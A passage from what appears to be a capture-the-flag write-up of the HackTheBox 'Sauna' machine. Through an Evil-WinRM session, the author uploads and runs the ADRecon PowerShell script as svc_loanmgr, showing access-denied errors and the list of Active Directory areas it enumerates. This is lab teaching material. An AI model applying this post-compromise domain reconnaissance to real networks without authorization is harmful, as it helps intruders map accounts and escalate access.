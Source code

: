     Privilege Name                Description                    State
    ============================= ============================== =======
    SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


## Getting AD privileges



We need to list our AD privileges.
We upload [ADRecon](https://github.com/sense-of-security/ADRecon) powershell
script on the box, run it and download the results.

(for more information about AD attacks: [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md).)

    :::text
    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> upload /root/pentest/ADRecon.ps1 .\
    Info: Uploading /root/pentest/ADRecon.ps1 to .\

    Data: 835464 bytes of 835464 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> .\ADRecon.ps1
    [*] ADRecon v1.1 by Prashant Mahajan (@prashant3535)
    Access denied
    At C:\Users\svc_loanmgr\Documents\ADRecon.ps1:11249 char:25
    + ...           $computer = Get-CimInstance -ClassName Win32_ComputerSystem
    +                           ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : PermissionDenied: (root\cimv2:Win32_ComputerSystem:String) [Get-CimInstance], CimException
        + FullyQualifiedErrorId : HRESULT 0x80041003,Microsoft.Management.Infrastructure.CimCmdlets.GetCimInstanceCommand
    Computer Role could not be identified.
    Cannot find a variable with the name 'computerrole'.
    At C:\Users\svc_loanmgr\Documents\ADRecon.ps1:11292 char:5
    +     Remove-Variable computerrole
    +     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : ObjectNotFound: (computerrole:String) [Remove-Variable], ItemNotFoundException
        + FullyQualifiedErrorId : VariableNotFound,Microsoft.PowerShell.Commands.RemoveVariableCommand
    [*] Running on \SAUNA -
    [*] Commencing - 02/19/2020 15:41:03
    [-] Domain
    [-] Forest
    [-] Trusts
    [-] Sites
    [-] Subnets
    [-] Default Password Policy
    [-] Fine Grained Password Policy - May need a Privileged Account
    [-] Domain Controllers
    [-] Users - May take some time
    [-] User SPNs
    [-] PasswordAttributes - Experimental
    [-] Groups - May take some time
    [-] Group Memberships - May take some time
    [-] OrganizationalUnits (OUs)
    [-] GPOs
    [-] gPLinks - Scope of Management (SOM)
    [-] DNS Zones and Records
    [-] Printers
    [-] Computers - May take some time
    [-] Computer SPNs
    [-] LAPS - Needs Privileged Account